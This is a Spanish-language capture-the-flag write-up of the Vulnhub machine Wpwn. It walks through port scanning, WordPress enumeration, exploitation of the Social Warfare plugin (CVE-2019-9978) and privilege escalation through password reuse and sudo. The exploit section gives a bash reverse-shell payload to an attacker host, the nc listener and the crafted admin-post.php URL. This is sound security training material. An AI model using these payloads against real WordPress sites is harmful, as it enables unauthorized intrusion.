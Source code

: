 ```yaml
---
layout: single
title: Wpwn - Vulnhub
excerpt: "Para resolver ésta máquina, descubrimos a la hora de la enumeración Web que está corriendo un CMS WordPress el cual enumeramos, así descubriendo qué contiene el plugin Social Warfare, con una versión vulnerable a RFI sin estar auténticado, convirtiendo éste RFI a RCE, para posterior entablarnos una Reverse Shell. Una vez dentro, reutilizamos la contraseña de la DB del CMS para convertirnos en un usuario válido del sistema, y por último, como este usuario nos aprovechamos de los SUDOERS para volvernos ROOT."
date: 16/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Web Enumeration
  - WordPress Enumeration
  - WordPress Plugin Social Warfare < 3.5.3 Exploitation (RFI to RCE)
  - Password Reuse (User Pivoting)
  - Abusing sudoers
  - CVE-2019-9978
---
```

Para resolver ésta máquina, descubrimos a la hora de la enumeración Web que está corriendo un CMS WordPress el cual enumeramos, así descubriendo qué contiene el plugin Social Warfare, con una versión vulnerable a RFI sin estar auténticado, convirtiendo éste RFI a RCE, para posterior entablarnos una Reverse Shell. Una vez dentro, reutilizamos la contraseña de la DB del CMS para convertirnos en un usuario válido del sistema, y por último, como este usuario nos aprovechamos de los SUDOERS para volvernos ROOT.



# PortScan
____

```
# Nmap 7.93 scan initiated Thu Nov 16 12:17:57 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.204.
Nmap scan report for 192.168.204.169
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59b7dbe0ba6376afd0200311e13c0e34 (RSA)
|   256 2e20567584ca35cee36a21321fe7f59a (ECDSA)
|_  256 0d02838b1a1cec0fae74cc7bda12899e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:2B:09:A1 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 16 12:18:04 2023 -- 1 IP address (1 host up) scanned in 6.65 seconds
```


# Web Enumeration
____

Hacemos una enumeración de directorios con **"GoBuster"**.
```bash
gobuster dir -u http://192.168.204.169 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```

Descubriendo así un directorio existente en el servicio Web con nombre "**/wordpress**"
![](/assets/images/htb-writeup-wpwn/Pasted image 20231116132515.png)

Es decir, qué está corriendo un **CMS** **WordPress** en el servicio web Apache del **:80**

# WordPress Enumeration
____

Echándole un vistazo al código fuente para ver plugins...
![](/assets/images/htb-writeup-wpwn/Pasted image 20231116132740.png)

Vemos que como uno de sus **plugins** tiene el "**Social Warfare v3.5.2**" que sí indagamos sobre posibles vulnerabilidades, encontraremos la vulnerabilidad **CVE-2019-9978** qué podemos llevar a cabo un **RCE** sin estar autenticados en ésta versión de Social Warfare.

[(Click aquí para entrar al PoC del RCE en el Social Warfare v.3.5.2)](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/)

En éste caso, modificaré el payload del **PoC** con una Reverse Shell, como iremos viendo...

1. Creamos en local un "**payload.txt**".
```bash
nano payload.txt
```

Qué como **Payload** para la **Reverse Shell** tendrá este:
```bash
<pre>system('bash -c "bash -i >& /dev/tcp/192.168.x.x/PORT 0>&1"')</pre>
```

2. Nos montamos un servidor en **Python** en la ruta del Payload.
```bash
python3 -m http.server 80
```

3. Nos ponemos en escucha con el puerto que indicamos en el Payload para recibir la Shell.
```bash
nc -nlvp 443
```

5. Usamos la ruta vulnerable al **RCE** del **PoC**, para indicar nuestra IP donde tenemos el servidor montando & el nombre del payload.
```bash
website/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP_ATACANTE/PAYLOAD
```

![](/assets/images/htb-writeup-wpwn/Pasted image 20231116134704.png)


Y recibiríamos nuestra **Reverse Shell**.

![](/assets/images/htb-writeup-wpwn/Pasted image 20231116134947.png)
Ya tan sólo quedaría darle **tratamiento a la TTY**, que sino sabes darle tratamiento te recomiendo [((Leer este POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios #1 
_____________

Indagando en los recursos **WordPress** qué desde fuera no tenemos acceso, encontraríamos el "**wp-config.php**" qué es donde está la configuración del mismo CMS, y sí le echamos un ojo encontraríamos las credenciales de la DB.

![](/assets/images/htb-writeup-wpwn/Pasted image 20231116135220.png)

y viendo los usuarios válidos del sistema en el **Passwd**, encontraríamos el usuario **takis**.
![](/assets/images/htb-writeup-wpwn/Pasted image 20231116135351.png)

Por ende, se me ocurre colocar ésta credencial en el usuarios takis.
![](/assets/images/htb-writeup-wpwn/Pasted image 20231116135502.png)

Logrando así entrar como **takis**, gracias a una reutilización de contraseña.


# Escalda de Privilegios #2 
____

Sí como **takis**, listamos los permisos **SUDOERS**.
```bash
sudo -l
```
![](/assets/images/htb-writeup-wpwn/Pasted image 20231116135731.png)

Podemos ejecutar cualquier comando como quién sea, es decir, podemos convertirnos en **root** tan fácil como:
```bash
sudo su
```

![](/assets/images/htb-writeup-wpwn/Pasted image 20231116135828.png)
